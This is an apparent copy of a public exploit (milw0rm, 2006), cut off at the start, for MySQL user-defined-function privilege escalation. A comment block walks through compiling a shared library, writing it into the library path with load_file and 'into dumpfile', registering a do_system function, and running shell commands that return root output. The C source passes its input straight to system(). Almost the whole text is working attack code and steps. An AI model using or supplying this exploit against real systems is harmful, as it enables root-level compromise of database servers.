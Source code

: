 ```bash
 * $ gcc -g -c raptor_udf2.c
 * $ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
 * $ mysql -u root -p
 * Enter password:
 * [...]
 * mysql> use mysql;
 * mysql> create table foo(line blob);
 * mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));
 * mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';
 * mysql> create function do_system returns integer soname 'raptor_udf2.so';
 * mysql> select * from mysql.func;
 * +-----------+-----+----------------+----------+
 * | name      | ret | dl             | type     |
 * +-----------+-----+----------------+----------+
 * | do_system |   2 | raptor_udf2.so | function |
 * +-----------+-----+----------------+----------+
 * mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');
 * mysql> \! sh
 * sh-2.05b$ cat /tmp/out
 * uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm)
 * [...]
 *
 * E-DB Note: Keep an eye on https://github.com/mysqludf/lib_mysqludf_sys
 *
 */

#include <stdio.h>
#include <stdlib.h>

enum Item_result {STRING_RESULT, REAL_RESULT, INT_RESULT, ROW_RESULT};

typedef struct st_udf_args {
        unsigned int            arg_count;      // number of arguments
        enum Item_result        *arg_type;      // pointer to item_result
        char                    **args;         // pointer to arguments
        unsigned long           *lengths;       // length of string args
        char                    *maybe_null;    // 1 for maybe_null args
} UDF_ARGS;

typedef struct st_udf_init {
        char                    maybe_null;     // 1 if func can return NULL
        unsigned int            decimals;       // for real functions
        unsigned long           max_length;     // for string functions
        char                    *ptr;           // free ptr for func data
        char                    const_item;     // 0 if result is constant
} UDF_INIT;

int do_system(UDF_INIT *initid, UDF_ARGS *args, char *is_null, char *error)
{
        if (args->arg_count != 1)
                return(0);

        system(args->args[0]);

        return(0);
}

char do_system_init(UDF_INIT *initid, UDF_ARGS *args, char *message)
{
        return(0);
}

// milw0rm.com [2006-02-20] 
```